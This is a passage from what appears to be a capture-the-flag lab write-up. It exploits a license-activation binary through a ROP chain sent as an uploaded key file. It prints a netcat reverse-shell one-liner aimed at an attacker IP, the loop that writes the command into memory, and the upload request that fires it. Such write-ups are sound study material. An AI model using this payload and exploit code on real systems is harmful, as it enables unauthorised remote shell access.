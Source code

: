 Then once we have these, we can use this to find the offset and write a `system` command to the binary. The script used in the guide uses a basic `bash` shell and inserts it in:

```python
cmd = b"bash -c 'rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.13 7777 >/tmp/f' \x00"
```

Then, the ROP chaining occurs, where the command is written into the memory space 8 bytes at a time:

```python
for i in range(0,len(cmd),8):
		rop += pop_rdi
		rop += p64(writable + i)
		rop += pop_rdx
		rop += cmd[i:i+8].ljust(8, b"\x00")
		rop += mov
```

Afterwards, the whole ROP chain is written into a file and sent to the remote web server. This is done because the web server accepts file uploads and sends the file contents directly to the `activate_license` binary, which would trigger the shell.

```python
rop += pop_rdi
	rop += p64(writable)
	rop += system
	with open('getshell.key','wb') as f:
		f.write(rop)
	files = {"licensefile": ("getshell.key", open("getshell.key","rb"),
	'application/x-iwork-keynote-sffkey')}
	requests.post(f"http://10.129.227.96/activate_license.php", files=files)
```

If this script is run, it gives us a reverse shell that we can upgrade.

<figure><img src="../../../.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation
